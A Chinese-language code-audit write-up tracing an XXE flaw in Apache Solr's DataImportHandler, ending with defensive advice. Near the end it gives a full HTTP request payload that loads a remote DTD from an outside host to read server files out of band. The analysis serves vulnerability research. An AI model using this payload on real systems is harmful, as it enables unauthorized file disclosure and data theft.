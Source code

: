 
代码审计系列之Apache-solr框架

- - -

# 代码审计系列之Apache-solr框架

## Apache Solr框架简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。是一个独立的企业级搜索应用服务器，目前很多企业运用solr开源服务。原理大致是文档通过Http利用XML加到一个搜索集合中。

参考链接：[https://lucene.apache.org/solr/](https://lucene.apache.org/solr/)

## 前言

有几个朋友反映这个框架很多src都在使用，也是一个偶然的机会在对某厂商做测试的时候发现这个东西，使用范围还是挺广的，这一课我们就对它进行分析。

## 全版本目录列表/文件读取

根据官网给出来的默认配置如下web.xml

```plain
<filter-mapping>
<!--
    NOTE: When using multicore, /admin JSP URLs with a core specified
    such as /solr/coreName/admin/stats.jsp get forwarded by a
    RequestDispatcher to /solr/admin/stats.jsp with the specified core
    put into request scope keyed as "org.apache.solr.SolrCore".

    It is unnecessary, and potentially problematic, to have the SolrDispatchFilter
    configured to also filter on forwards.  Do not configure
    this dispatcher as <dispatcher>FORWARD</dispatcher>.
  -->

<filter-name>SolrRequestFilter</filter-name>
<url-pattern>/*</url-pattern>

</filter-mapping>
```

一般这一类框架都是基于filter编写的，分析一下SolrDispatchFilter.classes

在doFilter方法里面看到这一句函数调用

```plain
this.handleAdminRequest(req, response, handler2, solrReq);
```

[![](assets/1705890806-48a5d0cf9e23fb4619c52e1cf12a5210.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119153937-e56a12ea-b69d-1.jpg)

跟进 RequestHandlerBase

[![](assets/1705890806-95fecf4e09fff0ccc5a213bee95f1e00.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119153952-eeb0400e-b69d-1.jpg)

走到这里通过ide查看一下实现这个方法的类具体有哪些

[![](assets/1705890806-2f00168040e2233d5270c74f33021bc4.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154004-f59f79f2-b69d-1.jpg)

这里重点看其中的一个实现类DataImportHandler.clasess

[![](assets/1705890806-f18c59f5a1dd778159e395f68e18bc1c.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154014-fbd360e0-b69d-1.jpg)  
看到这里可能有人会问你这个是debug模式的，仔细分析，是不是debug他都会调用this.importer.runCmd方法

DataImporter.classes

[![](assets/1705890806-319d8ce4cb533081e8dbd7996054cda4.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154028-04259812-b69e-1.jpg)

看看这个loadDataConfig的具体实现

[![](assets/1705890806-eda479eb2e50fd1615c02fb7673dbbff.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154035-0820db34-b69e-1.jpg)

从这里可以看出来采用的是DocumentBuilder进行了xml的解析，但是并没有做外部实体禁用操作

肯定是存在xxe漏洞，那么进一步测试

**1.采用gohper协议**

[![](assets/1705890806-5b59087078b78056616733ce70d36b4d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154046-0ea35248-b69e-1.jpg)

显示不支持此协议，可能与我环境上下文有关系

**2.采用http协议**

[![](assets/1705890806-7124314535784819f86355dca1795f0d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154054-137a11a8-b69e-1.jpg)

这里抛异常说是连接断开了，通过后台的日志我们可以发现http协议是支持的并且读到了目录

[![](assets/1705890806-f00f54b5fb4e79a339d5e19a5fd8f1a8.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154103-18d86dc0-b69e-1.jpg)

导致这个原因的代码如下：

[![](assets/1705890806-160a6a1b085ef9c442eb57194bcfbdd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154337-74dd4bb8-b69e-1.png)

这个位置有一个try catch操作，一旦发现有特殊字符回车换行之类的就抛异常，当发生异常时候this.config就是个null，系统就断开连接，一定程度，规避了这个问题。但是这个不是目的，目的就是要读到文件和目录。

**3.采用ftp协议**

构造一个ftp的payload

[![](assets/1705890806-d4a5ac66d5419d9f5f93554c6bff9dfa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154620-d6152bb2-b69e-1.png)

启动一个ftp服务

[![](assets/1705890806-e1a03708b723226f38277191c96949ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154451-a104a2d6-b69e-1.png)

发送数据包

[![](assets/1705890806-5238d05994cb8b19fe5488da748d9aff.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154112-1e101ef0-b69e-1.jpg)

成功返回

[![](assets/1705890806-78e90e21d113cab633eef436a1642f30.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154120-2310cd82-b69e-1.jpg)

Payload：

```plain
POST/test1/dataimport HTTP/1.1
Host:localhost:8080
Content-Length:281
Accept:application/json,text/javascript,*/*; q=0.01
Origin: http://localhost:8080
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost:8080/
Accept-Language: zh-CN,zh;q=0.8
Cookie: k4la_2132_lastcheckfeed=1%7C1491801899; k4la_2132_nofavfid=1
Connection: close

command=full-import&wt=json&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE+root+%5B%3C!ENTITY+%25+remote+SYSTEM+%22http%3A%2F%2Fxxe.boomeye.com%2Fftp_xxe.xml%22%3E%25remote%3B%5D%3E
```

## 总结

1.  对于solr的应用程序，每一个实例的访问应该添加授权机制，防止信息泄露和未授权调用
2.  对于xml的解析，在官方没有给出修复版本的情况下，采用waf解决

原文链接： [https://mp.weixin.qq.com/s/6gsTTgl3AzfZF6h8wJ8INw](https://mp.weixin.qq.com/s/6gsTTgl3AzfZF6h8wJ8INw)
